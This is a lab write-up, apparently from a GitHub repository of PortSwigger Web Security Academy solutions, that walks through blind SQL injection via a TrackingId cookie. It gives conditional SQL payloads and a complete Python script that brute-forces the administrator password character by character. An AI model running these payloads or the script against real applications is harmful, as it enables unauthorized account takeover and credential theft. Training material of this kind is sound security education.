





# Lab 11: Blind SQL injection with conditional responses

## Statement

*This lab contains a blind SQL injection vulnerability. The application uses a `TrackingId` cookie for analytics, and the results of the SQL query are not returned in the application's response. However, the application includes a `'Welcome back!'` message on the page if the query is successful and returns any rows.*

*The database contains a `users` table with `username` and `password` columns. To solve the lab, you must exploit the blind SQL injection vulnerability to find the password for the `administrator` user and log in.*

## Walkthrough

The vulnerability in this lab is in a cookie, not the URL. Using the browser's developer tools (**F12**), we can inspect the application's storage. Under the **Storage** (or **Application**) tab, we find two cookies: `session` and `TrackingId`.





By adding a single quote (`'`) to the value of the `TrackingId` cookie and reloading the page, the `'Welcome back!'` message disappears. This indicates that our input is interfering with the backend query.



If we then add a comment (`-- -`) after the single quote, the message reappears. This confirms a **Blind SQL Injection** vulnerability. We can't see the output of the query directly, but we can infer results based on whether the `'Welcome back!'` message is displayed.



We can now use conditional nested queries to exfiltrate data. A query is "true" if the welcome message appears and "false" if it does not. Let's confirm the `administrator` user exists in the `users` table. The message is displayed, so the user exists.

```sql
AND (SELECT 'a' FROM users WHERE username='administrator')='a'-- -
```


Next, we determine the length of the password. By testing different lengths, we find that the condition `LENGTH(password)=20` is true.

```sql
AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a'-- -
```

The final step is to extract the password character by character. This involves testing every possible alphanumeric character at each of the 20 positions—a task best suited for automation. The following `Python` script automates this brute-force attack.

```python
#!/usr/bin/env python3

import pwn
import requests
import sys
import signal
import string
import time

# Global progress bars
p1 = pwn.log.progress("Blind SQLI")
p2 = pwn.log.progress("Password")

def def_handler(sig, frame):
    """Handles Ctrl+C to exit the program gracefully."""

    print(f"\n[X] Leaving the program...\n")
    p1.failure("Brute force attack stopped")
    sys.exit(1)

def perform_request(position, char):
    """
    Sends a single request to check if a character matches at a given position.
    Returns True if the server's response indicates a match, False otherwise.
    """
    
    url = "https://0ae60079030c3b608172fcf2005600d3.web-security-academy.net/"
    tracking_id_payload = f"BOX2SV45JAaJer53' and (select substring(password,{position},1) from users where username ='administrator')='{char}'-- -"
    session_cookie = "zyxdJwWMVyHOxxu2nwVxC4dRQwn1fvk3"
    
    cookies = {
        "TrackingId": tracking_id_payload,
        "session": session_cookie
    }
    
    p1.status(cookies["TrackingId"])

    # The request logic is encapsulated here
    r = requests.get(url, cookies=cookies)
    
    return "Welcome back" in r.text

def bruteforce_SQLI():
    """
    Main function to perform the brute-force attack.
    """

    password = ""
    characters = string.ascii_letters + string.digits

    p1.status("Starting brute force attack")
    time.sleep(1)

    for position in range(1, 21):
        for char in characters:
            if perform_request(position, char):
                password = password + char
                p2.status(password)
                break # Move to the next position

if __name__ == "__main__":
    # Setup signal handler
    signal.signal(signal.SIGINT, def_handler)
    
    # Run the main function
    bruteforce_SQLI()
    
    # Final success message after the loop finishes
    p1.success("Attack finished.")
```
You can find the script file [here](scripts/sqli.py).

This script works by iterating through each position of the password (from 1 to 20). For each position, it tests every possible alphanumeric character. It sends a request with a payload like `' AND (SELECT SUBSTRING(password,1,1) FROM ... )='a'--`. If the `'Welcome back!'` message appears, it means the first character is `'a'`, so it appends it to the password string and moves to the next position. It repeats this process until the full password is recovered.

After running the script, it reveals the full password.



We can now log in as the `administrator` to complete the lab.

---
<div align="center">
  <a href="../Lab-10/README.md">⬅️ Previous Lab</a>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
  <a href="../Lab-12/README.md">Next Lab ➡️</a>
</div>